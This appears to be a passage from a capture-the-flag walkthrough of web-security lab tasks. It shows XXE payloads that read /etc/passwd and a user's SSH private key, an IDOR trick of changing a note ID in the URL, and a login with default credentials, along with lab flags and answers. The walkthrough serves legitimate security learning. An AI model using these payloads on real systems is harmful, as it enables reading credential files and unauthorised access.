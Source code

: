 	 ** FALCON FEAST**
- 2nd Payload tried.
	```
	<?xml version="1.0"?>
	<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
	<root>&read;</root>
	```
	**Got the content of /etc/passwd**

## 4.3 XML External Entity - Exploiting 
-  Try to display your own name using any payload. 
	```
	<!DOCTYPE replace [<!ENTITY name "Bar"> ]>
 	<userInfo>
  		<firstName>Foo</firstName>
  		<lastName>&name;</lastName>
 	</userInfo>
	```
- See if you can read the /etc/passwd
	```
	<?xml version="1.0"?>
	<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
	<root>&read;</root>
	```
- What is the name of the user in /etc/passwd
	
	**falcon**
- Where is falcon´s SSH key located?

	Default ssh key location but for this users
	
	**/home/falcon/.ssh/id_rsa**
- What are the first 18 characters for falcon's private key?
	 ```
 	<?xml version="1.0"?>
	<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
	<root>&read;</root>
	 ```
	**MIIEogIBAAKCAQEA7**
## 5. Broken Acess Control
### 5.1. Broken Access Control (IDOR Challenge) 
- Look at other users notes. What is the flag?
	
	Change url paramater from http://10.10.153.253/note.php?note=1 to http://10.10.153.253/note.php?note=0
	
	**flag{fivefourthree}**
## 6. Security Misconfiguration
- Hack into the webapp, and find the flag!
	Simple web app to take notes, I found a hint that tells me to look at their source code, I went on google and couldnt find anything worth checking, after that I went to github and found the webapp source, there was a page with default login credentials, I used them and it worked
	